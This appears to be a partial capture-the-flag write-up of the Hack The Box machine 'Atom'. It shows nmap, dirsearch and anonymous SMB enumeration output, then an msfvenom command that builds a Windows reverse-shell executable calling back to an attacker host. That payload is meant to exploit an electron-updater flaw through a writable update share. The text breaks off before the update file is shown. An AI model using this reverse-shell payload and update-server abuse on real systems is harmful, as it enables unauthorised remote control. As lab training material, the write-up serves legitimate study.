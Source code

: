 
![Image Atom]()


## ------------->> Atom <<--------------

// We start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.237 -p-
-------

    Nmap scan report for 10.10.10.237
    Host is up (0.17s latency).
    Not shown: 65529 filtered tcp ports (no-response)
    PORT     STATE SERVICE    VERSION
    80/tcp   open  http       Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
    |_http-title: Heed Solutions
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
    135/tcp  open  msrpc      Microsoft Windows RPC
    443/tcp  open  ssl/http   Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-title: Heed Solutions
    | ssl-cert: Subject: commonName=localhost
    | Not valid before: 2009-11-10T23:48:47
    |_Not valid after:  2019-11-08T23:48:47
    |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
    |_ssl-date: TLS randomness does not represent time
    | tls-alpn: 
    |_  http/1.1
    5985/tcp open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-title: Not Found
    |_http-server-header: Microsoft-HTTPAPI/2.0
    6379/tcp open  redis      Redis key-value store
    7680/tcp open  tcpwrapped
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

// Navigating to http://10.10.10.237/ present us with software product website

![Image 1]()

// Lets search for interesting directories or files with [dirsearch]()(By ).

    $ python3 dirsearch.py -u http://10.10.10.237/ -t 100
-------

      _|. _ _  _  _  _ _|_    v0.4.1
     (_||| _) (/_(_|| (_| )

    Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 100 | Wordlist size: 10903

    Output File: /home/r4r3/Desktop/HTB/main-Tools/web/directories_scanners/dirsearch/reports/10.10.10.237/_21-09-10_17-04-26.txt

    Error Log: /home/r4r3/Desktop/HTB/main-Tools/web/directories_scanners/dirsearch/logs/errors-21-09-10_17-04-26.log

    Target: http://10.10.10.237/

    ...
    [17:04:35] 403 -  302B  - /Trace.axd::$DATA
    [17:04:41] 403 -  302B  - /cgi-bin/
    [17:04:41] 500 -  636B  - /cgi-bin/printenv.pl
    [17:04:45] 301 -  338B  - /images  ->  http://10.10.10.237/images/
    [17:04:45] 200 -  984B  - /images/
    [17:04:45] 200 -    7KB - /index.html
    [17:04:46] 503 -  402B  - /examples/servlets/servlet/CookieExample
    [17:04:46] 503 -  402B  - /examples/servlets/index.html
    [17:04:46] 503 -  402B  - /examples/jsp/%252e%252e/%252e%252e/manager/html/
    [17:04:46] 503 -  402B  - /examples/jsp/snp/snoop.jsp
    [17:04:46] 503 -  402B  - /examples
    [17:04:46] 503 -  402B  - /examples/servlets/servlet/RequestHeaderExample
    [17:04:46] 503 -  402B  - /examples/
    [17:04:46] 503 -  402B  - /examples/servlet/SnoopServlet
    [17:04:48] 403 -  302B  - /phpmyadmin/docs/html/index.html
    [17:04:48] 403 -  302B  - /phpmyadmin/ChangeLog
    [17:04:48] 403 -  302B  - /phpmyadmin/doc/html/index.html
    [17:04:48] 403 -  302B  - /phpmyadmin/README
    [17:04:48] 403 -  302B  - /phpmyadmin
    [17:04:48] 403 -  302B  - /phpmyadmin/index.php
    [17:04:49] 403 -  302B  - /phpmyadmin/phpmyadmin/index.php
    [17:04:49] 403 -  302B  - /phpmyadmin/
    [17:04:49] 403 -  302B  - /phpmyadmin/scripts/setup.php
    [17:04:50] 301 -  340B  - /releases  ->  http://10.10.10.237/releases/
    [17:04:50] 403 -  421B  - /server-status/
    [17:04:50] 403 -  421B  - /server-status
    [17:04:50] 403 -  421B  - /server-info
    [17:04:53] 403 -  302B  - /web.config::$DATA
    [17:04:53] 403 -  302B  - /webalizer

    Task Completed

// Nothing helping there... Move on!

// Earlier with nmap we see there SMB service open

// Lets check if it allows anonymous connection with smbmap

    $ smbmap -u anonymous -H 10.10.10.237
------
    
    [+] Guest session   	IP: 10.10.10.237:445	Name: 10.10.10.237                                      
            Disk                                                  	Permissions	Comment
      ----                                                  	-----------	-------
      ADMIN$                                            	NO ACCESS	Remote Admin
      C$                                                	NO ACCESS	Default share
      IPC$                                              	READ ONLY	Remote IPC
      Software_Updates                                  	READ, WRITE	

// It worked !, We can see that we have permission(READ, WRITE) only in directory Software_Updates

// Lets check it out

    $ smbmap -u anonymous -r Software_Updates -H 10.10.10.237
------

    [+] Guest session   	IP: 10.10.10.237:445	Name: 10.10.10.237                                      
            Disk                                                  	Permissions	Comment
      ----                                                  	-----------	-------
      Software_Updates                                  	READ, WRITE	
      .\Software_Updates\*
      dr--r--r--                0 Fri Sep 10 18:53:53 2021	.
      dr--r--r--                0 Fri Sep 10 18:53:53 2021	..
      dr--r--r--                0 Fri Sep 10 18:49:49 2021	client1
      dr--r--r--                0 Fri Sep 10 18:49:49 2021	client2
      dr--r--r--                0 Fri Sep 10 18:49:49 2021	client3
      fr--r--r--            35202 Fri Apr  9 07:18:08 2021	UAT_Testing_Procedures.pdf

// after checking, client1,2,3 are empty so i downloaded 'UAT_Testing_Procedures.pdf' to see his content

    $ smbmap -u anonymous --download 'Software_Updates\UAT_Testing_Procedures.pdf' -H 10.10.10.237

![Image 2]()

// We can see that the pdf mantion electron-builder and that should be update-server

// After some digging [Electron builder](https://github.com/electron-userland/electron-builder) is:

    A complete solution to package and build a ready for distribution Electron, Proton Native app for macOS,
    Windows and Linux with “auto update” support out of the box.

// Digging some more found a vulnerability at electron-updater [here](https://snyk.io/test/npm/electron-updater/1.4.0)

![Image 3]()

// So lets try this, first we need to make .exe reverse shell, we will use msfvenom for that

    $ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.6 LPORT=1444 -f exe > rshell.exe
------

    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder specified, outputting raw payload
    Payload size: 324 bytes
    Final size of exe file: 73802 bytes

// Now we can make our 'latest.yml' file



f486053b0ed2b8e4d46b3c056b9f8dcdb9bb5d7f7f51ed03ae2a90d307e3fcdb2da28233e27527637fe8ab1c85e1c81f2894c92953894a2f94262d557da62b65

// The website offer us to download an .exe that demonstrate their notes software

